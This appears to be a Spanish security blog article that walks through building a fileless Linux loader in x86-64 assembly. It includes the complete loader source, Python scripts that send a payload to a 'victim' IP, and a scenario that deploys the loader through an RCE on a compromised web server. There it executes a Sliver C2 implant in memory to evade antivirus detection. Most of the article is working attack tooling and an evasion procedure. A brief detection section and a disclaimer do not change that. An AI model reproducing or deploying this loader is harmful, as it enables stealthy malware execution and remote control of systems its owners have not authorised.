

The Disk is Lava — Fileless Loader
Fileless Loader implementado en ensamblador x86-64. Usando únicamente syscalls, sin dependencias.
Uso responsable
El contenido de este sitio web se publica exclusivamente con fines educativos e informativos. El autor no promueve, respalda ni se hace responsable del uso indebido o ilegal de la información aquí expuesta. Cualquier acción realizada a partir de este contenido debe llevarse a cabo únicamente en entornos controlados, sistemas propios o con autorización expresa y verificable del propietario del sistema.
Introducción¶
La ejecución de un binario ELF sin la necesidad de crear un fichero en el sistema de archivos constituye uno de los fundamentos del malware moderno orientado a la evasión. La premisa es la siguiente, si el ejecutable malicioso no llega a escribirse en disco, las soluciones de seguridad basadas en el análisis del sistema de archivos, como los antivirus, los EDR con capacidades de detección estática o los IDS centrados en filesystem, carecen de una superficie directa sobre la que actuar.
La técnica detallada en este artículo explota la capacidad ofrecida por el kernel de Linux para la creación y ejecución de ficheros anónimos respaldados únicamente por memoria.
Flujo de ejecución¶
El loader operará en tándem, mientras que el proceso padre permanecerá a la escucha de nuevos payloads, los procesos hijo se encargarán de manejar cada una de las cargas de forma independiente.
El flujo completo, desde la conexión entrante hasta la ejecución del binario ELF, es el siguiente:
- Servidor en modo escucha. Se crea un socket TCP y se pone en modo escucha a la espera de conexiones entrantes. Cuando llega una, se acepta y se genera un canal de comunicación con el cliente.
- Clonado del proceso. Para no bloquear al loader, se bifurca el proceso en este momento. El padre cede la conexión y vuelve inmediatamente a esperar la siguiente. El hijo se queda con ella y continúa el flujo.
- Desvinculación de la sesión por parte del hijo. El hijo se separa de cualquier terminal o sesión activa para operar de forma completamente independiente al padre.
- Recepción del tamaño del binario. El cliente envía el tamaño en bytes del ejecutable que va a transmitir. El hijo recibe esta información y la almacena.
- Creación del fichero anónimo. Este fichero residirá únicamente en memoria e inicialmente se encuentra vacío.
- Pre-expansión del fichero anónimo. El fichero anónimo se pre-expande al tamaño exacto del binario que se va a recibir (dato obtenido en el paso 4).
- Mapeo compartido entre proceso y fichero. Se mapea el fichero en el espacio de direcciones del proceso de forma que cualquier escritura en esa región de memoria quede reflejada directamente en el fichero.
- Recepción del binario. El hijo lee el contenido del binario desde el socket y lo escribe en la región mapeada. Al hacerlo, el fichero anónimo queda escrito simultáneamente con el contenido del ejecutable.
- Eliminación del mapeo. La región de memoria compartida ya ha cumplido su función en este punto, por lo que se elimina del espacio de direcciones del proceso hijo (el fichero anónimo permanece intacto).
- Redirección de I/O al socket. Se redirigen
stdin,stdoutystderrdel proceso al socket del cliente, de forma que cualquier entrada o salida del binario ejecutado viaje directamente por la conexión de red. - Se ejecuta el binario. Se lanza directamente desde el descriptor de archivo que identifica al fichero anónimo.
Explicación del Loader Paso a Paso¶
Esta sección detalla las syscalls involucradas en cada paso, los argumentos que esperan, las decisiones de implementación y las restricciones del kernel que condicionan el diseño.
Paso 1: Servidor en modo escucha¶
Para que el loader pueda recibir binarios a través de la red necesita primero establecer un punto de entrada, es este caso, un socket TCP al que el cliente pueda conectarse. Esto implica tres pasos encadenados:
socket crea el extremo de comunicación y devuelve un file descriptor que lo identifica. Se le indica que trabaje con direcciones IPv4 (AF_INET) y que use el protocolo orientado a conexión TCP (SOCK_STREAM).
; SOCKET
mov rax, 41 ; Número de syscall (socket)
mov rdi, 2 ; Familia de direcciones (AF_*) -> AF_INET == 2
mov rsi, 1 ; Tipo de socket (SOCK_*) -> SOCK_STREAM == 1
xor rdx, rdx ; Protocolo (0 = por defecto)
syscall
; ----------------------------------
mov r12, rax ; FD del socket -
; ----------------------------------
bind asocia el socket con una dirección y puerto concretos a partir de la estructura para IPv4 sockaddr_in. Sin esta llamada, el socket existe pero no tiene una dirección asignada, el cliente no sabe a dónde conectarse.
; Sección .data
; Set de la estructura sockaddr_in
sockaddr_in:
dw 2 ; sin_family = AF_INET (2)
dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
dd 0x0100007F ; sin_addr = 127.0.0.1 (big-endian: 0x7f000001 → bytes 01 00 00 7F)
dq 0 ; sin_zero (padding)
; Disposición en memoria (16 bytes):
;
; 02 00 5C 11 01 00 00 7F 00 00 00 00 00 00 00 00
; └──┘ └──┘ └─────────┘ └──────────────────────┘
; 0-1 2-3 4-7 8-15
; Fam Puerto IP Padding
; BIND
mov rax, 49 ; Número de syscall (bind)
mov rdi, r12 ; File Descriptor del socket
lea rsi, [rel sockaddr_in] ; Puntero a struct sockaddr con la dirección local
mov rdx, 16 ; Tamaño de la estructura de dirección en bytes
syscall
listen convierte el socket en pasivo, a partir de este punto se usará para aceptar conexiones entrantes.
;LISTEN
mov rax, 50 ; Número de syscall (listen)
mov rdi, r12 ; File Descriptor del socket
mov rsi, 1 ; Tamaño máximo de la cola de conexiones pendientes
syscall
En este punto el socket está configurado y en escucha, pero todavía no hay ninguna conexión activa. accept bloquea la ejecución hasta que llega una conexión entrante, momento en el que devuelve un nuevo file descriptor que representa el canal de comunicación con ese cliente concreto.
; accept_loop permitirá al loader atender múltiples conexiones
accept_loop:
;ACCEPT
mov rax, 43 ; Número de syscall (accept)
mov rdi, r12 ; Descriptor del socket en escucha (tras bind + listen)
xor rsi, rsi ; Puntero a struct sockaddr donde se almacenará la dirección del cliente (o NULL)
xor rdx, rdx ; Puntero a socklen_t con el tamaño del buffer addr (o NULL)
syscall
; ----------------------------------------
mov r13, rax ; FD del socket conectado -
; ----------------------------------------
Paso 2: Clonado del proceso¶
Si el proceso principal se quedara gestionando cada binario entrante de forma secuencial, no podría aceptar una nueva conexión hasta que la anterior hubiera terminado. La solución es bifurcar el proceso en el momento en que llega una conexión, el padre vuelve inmediatamente al bucle de escucha y el hijo se encarga de la carga y ejecución de forma independiente.
En este caso, usaremos clone3 en lugar del fork clásico. clone3 no acepta flags directamente como argumento, sino que opera sobre una struct clone_args de 88 bytes que describe con precisión el comportamiento del proceso hijo.
; Sección .data
; Argumentos para definir el clonado del proceso
; struct clone_args (88 bytes)
clone_args:
dq 0 ; flags
dq 0 ; Puntero donde almacenar el pidfd (si CLONE_PIDFD)
dq 0 ; Puntero donde escribir el TID del hijo (si CLONE_CHILD_SETTID)
dq 0 ; Puntero donde escribir el TID en el padre (si CLONE_PARENT_SETTID)
dq 17 ; Señal a enviar al padre cuando el hijo termina (ej: SIGCHLD = 17)
dq 0 ; Dirección base de la pila del hijo
dq 0 ; Tamaño de la pila del hijo
dq 0 ; Puntero a la estructura TLS (si CLONE_SETTLS)
dq 0 ; Puntero a array de PIDs forzados por namespace
dq 0 ; Número de elementos en set_tid
dq 0 ; FD de cgroup destino (si CLONE_INTO_CGROUP)
; CLONE3
mov rax, 435 ; Número de syscall (clone3)
lea rdi, [rel clone_args] ; Puntero a struct clone_args
mov rsi, 88 ; Tamaño de la estructura clone_args
syscall
cmp rax, 0
jg accept_loop ; rax > 0 → PADRE: volver a esperar
; rax == 0 → HIJO: continúa
Paso 3: Desvinculación de la sesión¶
El proceso hijo hereda del proceso padre la sesión y el grupo de procesos al que pertenece, así como la terminal de control asociada. Esto supone un problema, si esa terminal se cierra, el kernel envía SIGHUP a todos los procesos del grupo, lo que terminaría la carga en curso.
setsid resuelve esto creando una nueva sesión y convirtiendo al hijo en su único miembro y líder. Al no pertenecer ya a ninguna sesión con terminal controladora, el hijo queda completamente aislado y puede operar de forma autónoma.
Paso 4: Recepción del tamaño del binario¶
Para crear el fichero anónimo con el tamaño correcto y mapearlo en memoria, el loader necesita saber de antemano cuántos bytes ocupa el binario que va a recibir. El cliente enviará este dato antes que el propio payload, en este caso, como entero de 64 bits (8 bytes) en little-endian.
recvfrom lee datos del socket conectado y los escribe en un buffer.
; recvfrom puede devolver menos bytes de los solicitados, el bucle
; recv_lg acumula en un registro el offset hasta completar los 8 bytes esperados.
recv_lg:
add r15, rax
;RECVFROM
mov rax, 45 ; Número de syscall (recvfrom)
mov rdi, r13 ; Descriptor del socket
lea rsi, [rel buff_lg] ; Dirección del buffer donde almacenar datos
add rsi, r15
mov rdx, 8 ; Tamaño máximo del buffer (bytes a recibir)
sub rdx, r15
xor r10, r10 ; Flags de recepción (MSG_*)
xor r8, r8 ; Puntero a struct sockaddr (o NULL)
xor r9, r9 ; Puntero a socklen_t (o NULL)
syscall
cmp rax, 0
jg recv_lg
Paso 5: Creación del fichero anónimo¶
Con el tamaño del binario ya conocido, el siguiente paso es crear al contenedor que lo almacenará. Se necesita un fichero sobre el que sea posible operar pero que no deje ningún rastro en el sistema de archivos. Para ello, podemos hacer uso de la funcionalidad ofrecida directamente por el kernel de Linux.
memfd_create crea un archivo anónimo en memoria y devuelve un file descriptor que lo identifica. El archivo reside en un montaje interno de tmpfs del kernel (no en ningún filesystem visible al usuario) y está respaldado exclusivamente por RAM (y swap si es necesario).
Se utiliza el flag MFD_EXEC (0x0010) para marcar explícitamente que el fichero tendrá contenido ejecutable.
;MEMFD_CREATE
mov rax, 319 ; Número de syscall (memfd_create)
lea rdi, [rel memfd_name] ; Puntero a C-string con el nombre (informativo)
mov rsi, 0x0010 ; Flags de comportamiento (MFD_*) MFD_EXEC == 0x0010
syscall
; --------------------------------
mov r14, rax ; FD del memfd -
; --------------------------------
Paso 6: Pre-expansión del fichero¶
Un fichero recién creado con memfd_create tiene tamaño cero (0 bytes). Esto supone un problema para el siguiente paso, ya que mmap necesita páginas concretas sobre las que establecer el mapeo y un fichero vacío no tiene ninguna asignada.
ftruncate establece el tamaño de un archivo referenciado por un file descriptor. Si el tamaño especificado es menor que el actual, el contenido más allá de ese punto se pierde. Si es mayor, el archivo se extiende con bytes a cero.
Tras esta llamada, el fichero tiene el tamaño correcto y las páginas necesarias están reservadas, listas para ser mapeadas y escritas.
; FTRUNCATE
mov rax, 77 ; Número de syscall (ftruncate)
mov rdi, r14 ; Descriptor de archivo
mov rsi, [buff_lg] ; Nuevo tamaño en bytes
syscall
Paso 7: Mapeo compartido entre proceso y fichero¶
Con el fichero anónimo creado y dimensionado, el siguiente paso es vincularlo al proceso hijo. En este punto usaremos mmap, que permite mapear el fichero anónimo en el espacio de direcciones del proceso actual, devolviendo una dirección virtual desde la que poder operar directamente sobre su contenido.
La opción de mapeo depende del valor de una flag:
MAP_SHAREDproceso y fichero comparten las mismas páginas físicas, de forma que cualquier escritura en la región mapeada se propaga directamente al fichero sin ningún intermediario (la opción que usaremos).MAP_PRIVATEel kernel aplica copy-on-write, las escrituras generan una copia privada visible solo para el proceso, dejando al fichero subyacente sin modificar.
;MMAP
mov rax, 9 ; Número de syscall (mmap)
mov rdi, 0 ; Dirección sugerida (0 para que el SO lo elija)
mov rsi, [buff_lg] ; Tamaño en bytes a reservar (ej. 4096 = 1 página)
mov rdx, 3 ; Permisos de protección (flags PROT_*) PROT_READ | PROT_WRITE = 0x3
mov r10, 1 ; Opciones de mapeo (MAP_*) MAP_SHARED = 0x01
mov r8, r14 ; File descriptor (para mapeo de archivo; -1 si no aplica)
mov r9, 0 ; Offset dentro del archivo (múltiplo del tamaño de página)
syscall
Paso 8: Recepción del binario¶
Los datos se leen directamente desde el socket y se escriben en la región mapeada, dado que proceso y fichero comparten las mismas páginas físicas, esa escritura es simultáneamente una escritura en el fichero anónimo.
Al igual que con la recepción del tamaño, el bucle gestiona recepciones parciales hasta completar el total de bytes esperado.
mov r12, rax ; RAX - Contiene la dirección base del bloque de memoria reservado
xor r15, r15 ; R15 - Contiene el offset de la región de memoria compartida
recv_all:
add r15, rax
;RECVFROM
mov rax, 45 ; Número de syscall (recvfrom)
mov rdi, r13 ; Descriptor del socket
mov rsi, r12 ; Dirección del buffer donde almacenar datos
add rsi, r15
mov rdx, [buff_lg] ; Tamaño máximo del buffer (bytes a recibir)
sub rdx, r15
xor r10, r10 ; Flags de recepción (MSG_*)
xor r8, r8 ; Puntero a struct sockaddr (o NULL)
xor r9, r9 ; Puntero a socklen_t (o NULL)
syscall
cmp rax, 0
jg recv_all
Al terminar el bucle, el fichero anónimo contiene el binario completo, listo para ser ejecutado.
Paso 9: Eliminación del mapeo¶
Una vez que el binario está completo en el fichero anónimo, el mapeo compartido que vincula al proceso hijo con el fichero ya no es necesario. munmap libera esa región del espacio de direcciones.
; MUNMAP
mov rax, 11 ; Número de syscall (munmap)
mov rdi, r12 ; Dirección base del mapping a eliminar
mov rsi, [buff_lg] ; Tamaño en bytes a desmapear
syscall
Paso 10: Redirección de I/O al socket¶
Antes de ejecutar el binario, es aconsejable redirigir stdin, stdout y stderr del proceso hijo al socket del cliente. Esto permitirá enviar la entrada al payload de forma remota y consultar su salida.
dup3 duplica un file descriptor (FD) existente sobre otro número de FD específico, cerrando primero el FD destino si estaba abierto. Tras la llamada, ambos apuntan al mismo open file description (mismo offset y file status flags).
Se ejecuta dup3 en un bucle para redirigir los descriptores al socket del cliente:
xor rsi,rsi ; File Descriptor destino (0=stdin,1=stdout,2=stderr)
dup3:
; DUP3
mov rax, 292 ; Número de syscall (dup3)
mov rdi, r13 ; File Descriptor existente a duplicar
xor rdx, rdx ; Flags: 0 o O_CLOEXEC (0x80000)
syscall
inc rsi
cmp rsi, 3
jl dup3
| Iteración | RSI | Efecto |
|---|---|---|
| 1 | 0 | stdin → socket del cliente |
| 2 | 1 | stdout → socket del cliente |
| 3 | 2 | stderr → socket del cliente |
Tras el bucle, toda la entrada y salida estándar del proceso hijo está vinculada al socket. Cuando execveat reemplace la imagen del proceso por la del binario cargado, este heredará los descriptores ya redirigidos, como resultado, cualquier escritura en stdout o stderr llegará al cliente a través de la conexión TCP y cualquier lectura desde stdin utilizará los datos enviados por el cliente.
Paso 11: Ejecución desde el file descriptor¶
El último paso es ejecutar el binario que ahora reside en el fichero anónimo. El problema es que execve requiere una ruta y el fichero anónimo no tiene ninguna. Aquí entra execveat.
execveat permite ejecutar un binario referenciado por un file descriptor en lugar de una ruta. Cuando se utiliza la flag AT_EMPTY_PATH y se proporciona una cadena vacía como ruta, el kernel usa el FD como identificador del fichero a ejecutar.
;EXECVEAT
mov rax, 322 ; Número de syscall (execveat)
mov rdi, r14 ; Descriptor de directorio base (o AT_FDCWD, o FD del ejecutable)
lea rsi, [rel exec_path] ; Puntero a C-string con la ruta (puede ser "")
xor rdx, rdx ; Puntero a array de punteros a C-string (terminado en NULL)
xor r10, r10 ; Puntero a array de punteros a C-string (terminado en NULL)
mov r8, 0x1000 ; Flags de resolución (AT_*) AT_EMPTY_PATH = 0x1000
syscall
Código completo (fileless_loader.asm)¶
section .data
memfd_name db '', 0 ; Nombre del memfd
exec_path db '', 0 ; Empty path para que execveat ejecute FD
; Argumentos para definir las propiedades del socket
; struct sockaddr_in (16 bytes)
sockaddr_in:
dw 2 ; sin_family = AF_INET
dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
dd 0x00000000 ; sin_addr = 0.0.0.0 (acepta desde todas las interfaces de red)
dq 0 ; sin_zero (padding)
; Argumentos para definir el clonado del proceso
; struct clone_args (88 bytes)
clone_args:
dq 0 ; flags CLONE_PIDFD = 0x00001000
dq 0 ; Puntero donde almacenar el pidfd (si CLONE_PIDFD)
dq 0 ; Puntero donde escribir el TID del hijo (si CLONE_CHILD_SETTID)
dq 0 ; Puntero donde escribir el TID en el padre (si CLONE_PARENT_SETTID)
dq 17 ; Señal a enviar al padre cuando el hijo termina (ej: SIGCHLD = 17)
dq 0 ; Dirección base de la pila del hijo
dq 0 ; Tamaño de la pila del hijo
dq 0 ; Puntero a la estructura TLS (si CLONE_SETTLS)
dq 0 ; Puntero a array de PIDs forzados por namespace
dq 0 ; Número de elementos en set_tid
dq 0 ; FD de cgroup destino (si CLONE_INTO_CGROUP)
section .bss
buff_lg: resq 1 ; Buffer donde almacenar el tamaño del binario (8 Bytes)
section .text
global _start
_start:
; 1 - Creación del socket en modo escucha
; SOCKET
mov rax, 41 ; Número de syscall (socket)
mov rdi, 2 ; Familia de direcciones (AF_*)
mov rsi, 1 ; Tipo de socket (SOCK_*), opcionalmente OR con flags
xor rdx, rdx ; Protocolo (0 = por defecto)
syscall
; ----------------------------------
mov r12, rax ; FD del socket -
; ----------------------------------
; BIND
mov rax, 49 ; Número de syscall (bind)
mov rdi, r12 ; File Descriptor del socket
lea rsi, [rel sockaddr_in] ; Puntero a struct sockaddr con la dirección local
mov rdx, 16 ; Tamaño de la estructura de dirección en bytes
syscall
;LISTEN
mov rax, 50 ; Número de syscall (listen)
mov rdi, r12 ; File Descriptor del socket
mov rsi, 1 ; Tamaño máximo de la cola de conexiones pendientes
syscall
accept_loop:
;ACCEPT
mov rax, 43 ; Número de syscall (accept)
mov rdi, r12 ; Descriptor del socket en escucha (tras bind + listen)
xor rsi, rsi ; Puntero a struct sockaddr donde se almacenará la dirección del cliente (o NULL)
xor rdx, rdx ; Puntero a socklen_t con el tamaño del buffer addr (o NULL)
syscall
; ----------------------------------------
mov r13, rax ; FD del socket conectado -
; ----------------------------------------
; 2 - Creación del proceso hijo y desvinculación del padre
; CLONE3
mov rax, 435 ; Número de syscall (clone3)
lea rdi, [rel clone_args] ; Puntero a struct clone_args
mov rsi, 88 ; Tamaño de la estructura clone_args
syscall
cmp rax, 0
jg accept_loop
; SETSID
mov rax, 112 ; Número de syscall (setsid)
syscall
; 3 - Recepción del tamaño en bytes del fichero
xor r15, r15
xor rax, rax
recv_lg:
add r15, rax
;RECVFROM
mov rax, 45 ; Número de syscall (recvfrom)
mov rdi, r13 ; Descriptor del socket
lea rsi, [rel buff_lg] ; Dirección del buffer donde almacenar datos
add rsi, r15
mov rdx, 8 ; Tamaño máximo del buffer (bytes a recibir)
sub rdx, r15
xor r10, r10 ; Flags de recepción (MSG_*)
xor r8, r8 ; Puntero a struct sockaddr (o NULL)
xor r9, r9 ; Puntero a socklen_t (o NULL)
syscall
cmp rax, 0
jg recv_lg
; 4 - Creación del fichero en tempfs por parte del hijo
;MEMFD_CREATE
mov rax, 319 ; Número de syscall (memfd_create)
lea rdi, [rel memfd_name] ; Puntero a C-string con el nombre (informativo)
mov rsi, 0x0010 ; Flags de comportamiento (MFD_*) MFD_EXEC = 0x0010
syscall
; --------------------------------
mov r14, rax ; FD del memfd -
; --------------------------------
; 5 - Preexpanción del fichero en tempfs al tamaño necesario (relleno a 0)
; FTRUNCATE
mov rax, 77 ; Número de syscall (ftruncate)
mov rdi, r14 ; Descriptor de archivo
mov rsi, [rel buff_lg] ; Nuevo tamaño en bytes
syscall
; mmap con MAP_SHARED sobre un fd mapea páginas reales del fichero.
; Si el fichero mide 0 bytes no hay páginas que mapear, el kernel rechaza la operación.
; ftruncate preexpande el fichero al tamaño necesario, reservando esas páginas en tmpfs,
; para que mmap tenga algo concreto sobre lo que operar.
; 6 - Crear región de memoria compartida entre el proceso hijo y el fichero en tempfs
;MMAP
mov rax, 9 ; Número de syscall (mmap)
mov rdi, 0 ; Dirección sugerida (0 para que el SO lo elija)
mov rsi, [rel buff_lg] ; Tamaño en bytes a reservar (ej. 4096 = 1 página)
mov rdx, 3 ; Permisos de protección (flags PROT_*) PROT_READ | PROT_WRITE = 0x3
mov r10, 1 ; Opciones de mapeo (MAP_*) MAP_SHARED = 0x01
mov r8, r14 ; File descriptor (para mapeo de archivo; -1 si no aplica)
mov r9, 0 ; Offset dentro del archivo (múltiplo del tamaño de página)
syscall
; 7 - Se escribe el contenido recibido en la región de memoria compartida
xor r12, r12
mov r12, rax ; RAX - Contiene la dirección base del bloque de memoria reservado
xor r15, r15 ; R15 - Contiene el offset de la región de memoria compartida
xor rax, rax
recv_all:
add r15, rax
;RECVFROM
mov rax, 45 ; Número de syscall (recvfrom)
mov rdi, r13 ; Descriptor del socket
mov rsi, r12 ; Dirección del buffer donde almacenar datos
add rsi, r15
mov rdx, [rel buff_lg] ; Tamaño máximo del buffer (bytes a recibir)
sub rdx, r15
xor r10, r10 ; Flags de recepción (MSG_*)
xor r8, r8 ; Puntero a struct sockaddr (o NULL)
xor r9, r9 ; Puntero a socklen_t (o NULL)
syscall
cmp rax, 0
jg recv_all
; 8 - Se desvincula al proceso hijo de la región de memoria compartida
; MUNMAP
mov rax, 11 ; Número de syscall (munmap)
mov rdi, r12 ; Dirección base del mapping a eliminar
mov rsi, [rel buff_lg] ; Tamaño en bytes a desmapear
syscall
; 9 - Se redirige la stdin/stdout/stderr al socket
xor rsi,rsi ; File Descriptor destino (0=stdin,1=stdout,2=stderr)
dup3:
; DUP3
mov rax, 292 ; Número de syscall (dup3)
mov rdi, r13 ; File Descriptor existente a duplicar
xor rdx, rdx ; Flags: 0 o O_CLOEXEC (0x80000)
syscall
inc rsi
cmp rsi, 3
jl dup3
; 10 - Se ejecuta el contenido del fichero en tempfs
;EXECVEAT
mov rax, 322 ; Número de syscall (execveat)
mov rdi, r14 ; Descriptor de directorio base (o AT_FDCWD, o FD del ejecutable)
lea rsi, [rel exec_path] ; Puntero a C-string con la ruta (puede ser "")
xor rdx, rdx ; Puntero a array de punteros a C-string (terminado en NULL)
xor r10, r10 ; Puntero a array de punteros a C-string (terminado en NULL)
mov r8, 0x1000 ; Flags de resolución (AT_*) AT_EMPTY_PATH = 0x1000
syscall
exit:
; EXIT
mov rax, 60
xor rdi, rdi
syscall
Sender¶
Antes de transferir el ejecutable al loader, el cliente debe enviar previamente su tamaño en un primer mensaje de longitud fija (8 bytes codificados en little-endian). Esto puede realizarse directamente utilizando el siguiente script:
import socket
import struct
import sys
HOST = '192.168.18.244' # IP de la víctima
PORT = 4444 # Puerto donde escucha el loader
with open(sys.argv[1], 'rb') as f:
binary = f.read()
size = struct.pack('<Q', len(binary))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.sendall(size)
s.sendall(binary)
s.shutdown(socket.SHUT_WR)
print("[*] Esperando salida...\n")
try:
while True:
data = s.recv(4096)
if not data:
print("\n[!] Conexión cerrada por el servidor")
break
print(data.decode(errors='replace'), end='', flush=True)
except KeyboardInterrupt:
print("\n[*] Saliendo...")
finally:
s.close()
Si el binario a ejecutar no devuelve ninguna salida ni espera una entrada, se puede usar el siguiente script:
import socket
import struct
import sys
HOST = '192.168.18.244' # IP de la víctima
PORT = 4444 # Puerto donde escucha el loader
with open(sys.argv[1], 'rb') as f:
payload = f.read()
size = struct.pack('<Q', len(payload))
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
s.connect((HOST, PORT))
s.sendall(size + payload)
print(f"[+] Enviados {len(payload)} bytes")
Compilación¶
# Compilar el loader (Máquina Atacante)
nasm -f elf64 fileless_loader.asm -o fileless_loader.o
ld fileless_loader.o -o fileless_loader
# Ejecutar el loader (queda en escucha en 127.0.0.1:4444) (Máquina Víctima)
./fileless_loader
# Enviar un binario al loader (Máquina Atacante)
python3 sender.py /<path>/<binary>
Caso Práctico¶
Se ha comprometido un servidor web Linux explotando una vulnerabilidad de ejecución remota de comandos (RCE) en la plataforma que permite ejecutar comandos como www-data. El servidor dispone de una solución de seguridad con protección en tiempo real, encargada de supervisar de forma continua la actividad del sistema de ficheros. Este mecanismo analizará las operaciones de lectura, escritura y ejecución que se realizan sobre los archivos, con el objetivo de identificar comportamientos potencialmente maliciosos.
En particular, la solución incorpora mecanismos de detección basados en firmas, comparando los ficheros presentes o recién introducidos en el sistema con una base de firmas asociadas a herramientas ofensivas, malware conocido y utilidades habitualmente empleadas en actividades de intrusión. Cuando se detecta una coincidencia, el sistema procede a bloquear o poner en cuarentena el archivo, impidiendo su ejecución y reduciendo así el riesgo de compromiso del sistema.
El objetivo es establecer un canal de Command & Control (C2) completo con la máquina comprometida, que permita ejecutar comandos de forma interactiva, subir y descargar ficheros, pivotar a otros segmentos de red y mantener persistencia. Para ello se utilizará un implant de Sliver. El implant es un binario ELF estático que, al ejecutarse, establece de forma autónoma una conexión cifrada (mTLS) de vuelta al servidor C2 del atacante.
Si se transfiere el implant directamente al disco de la víctima, la solución de seguridad lo detectará por su firma y lo eliminará antes de que llegue a ejecutarse. Los implants de Sliver son detectados rápidamente por soluciones de seguridad debido a sus firmas estáticas.
El loader resuelve esta barrera explotando una asimetría, separar la infraestructura de ejecución del contenido ejecutado. El loader en sí no contiene ninguna carga ofensiva: no hay shellcode embebido, ni exploits, ni cadenas sospechosas. Para un escáner basado en firmas es un binario limpio. El implant, por su parte, nunca toca el disco. Llega por red y se ejecuta directamente desde un fichero anónimo que solo existe como páginas en RAM. La protección en tiempo real opera monitorizando eventos del sistema de ficheros y un fichero anónimo no genera ninguno de estos eventos porque no pertenece a ningún filesystem montado. Sin evento de filesystem, no hay escaneo. Sin escaneo, no hay detección.
Preparación¶
Infraestructura C2
En la máquina atacante (192.168.18.245), se inicia el servidor de Sliver y se genera el implant para Linux x86-64. Toda la configuración queda embebida dentro del binario.
# Iniciar Sliver (Máquina Atacante)
sliver-server
# Generar el implant (Máquina Atacante)
generate --mtls <sliver_lst_ip>:<sliver_lst_port> --os linux --arch amd64 --format exe --save /tmp/implant

El resultado es un ELF estático que, al ejecutarse, establecerá una conexión mTLS de vuelta al C2.
Antes de la ejecución del implante, recuerda tener el listener mTLS activo para recibir la conexión entrante.

Loader
Configuramos la dirección IPv4 y el puerto de escucha del loader. La estructura sockaddr_in del loader se configurará con la dirección 0.0.0.0 y el puerto 4444. La dirección 0.0.0.0 indica al kernel que el socket debe aceptar conexiones entrantes en cualquier interfaz de red disponible en la máquina, en lugar de restringirlo a una IP concreta.
; fileless_loader.asm (sección .data)
sockaddr_in:
dw 2 ; sin_family = AF_INET
dw 0x5C11 ; sin_port = 4444 (big-endian: 0x115C → bytes 5C 11)
dd 0x00000000 ; sin_addr = 0.0.0.0 (acepta desde todas las interfaces de red)
dq 0 ; sin_zero (padding)
Compilamos el loader.

Despliegue del Loader¶
Enviamos el loader codificado en formato Base64 y lo ejecutamos en la máquina objetivo a través de la vulnerabilidad RCE. El loader quedará a la escucha en segundo plano en el puerto 4444.
# Se codifica el loader en Base64 y se copia en la clipboard (Máquina atacante)
base64 -w 0 <loader> | xclip -selection clipboard
# Se almacena descodificado el loader en el destino (Máquina víctima)
echo '<Base64>' | base64 -d > /dev/shm/fl
# Se le otorga permisos de ejecucción (Máquina víctima)
chmod +x /dev/shm/fl
# Se ejecuta el loader en segundo plano (Máquina víctima)
./fl &
Aunque la solución de seguridad lo escanee al crearse, no encontrará ninguna firma ofensiva, porque el loader no contiene ningún payload malicioso.
Ejecución del implante de Sliver¶
Desde la máquina atacante, enviamos el implant al loader.

El loader recibe el implant, lo almacena en un fichero anónimo en memoria y lo ejecuta. El implant inicia su ejecución y establece de forma autónoma la conexión mTLS cifrada de vuelta al C2.

Se dispone ahora de un canal C2 interactivo con ejecución de comandos, subida y descarga de ficheros, pivoting, port forwarding, captura de pantalla y cualquier otra capacidad que ofrece Sliver. Todo ello sin que el implant haya existido en ningún momento como fichero en el sistema de archivos.
Detección¶
Las soluciones de seguridad basadas en el análisis estático del sistema de ficheros resultan ineficaces frente a esta técnica. El loader, al no incorporar ninguna carga ofensiva, no presenta firmas ni patrones que puedan ser correlacionados con actividad maliciosa conocida. El payload, por su parte, nunca llega a estar en un fichero tradicional, por lo que no existe superficie sobre la que identificar la actividad maliciosa. La identificación de esta técnica requiere un cambio de enfoque hacia la monitorización del comportamiento en tiempo de ejecución. Las principales vías de detección pasan por la identificación de procesos activos que carezcan de un ejecutable asociado en el sistema de archivos, el bloqueo de conexiones de red hacia sistemas ajenos a la organización o la detección de patrones de actividad que se desvíen del comportamiento esperado para un proceso o usuario.
Cabe destacar que algunas soluciones de seguridad modernas ya incorporan capacidades de detección orientadas a identificar las primitivas empleadas por este tipo de loaders, como la creación de ficheros anónimos con permiso de ejecucción en memoria. La eficacia de estas detecciones varía en función del producto y su configuración.
Agradecimientos¶
Gracias por llegar hasta aquí.
Si encuentras errores o quieres mejorar/ampliar el artículo, el contenido del blog está abierto a Pull Requests. Toda contribución es bienvenida.
¡Nos vemos en el próximo artículo! ;)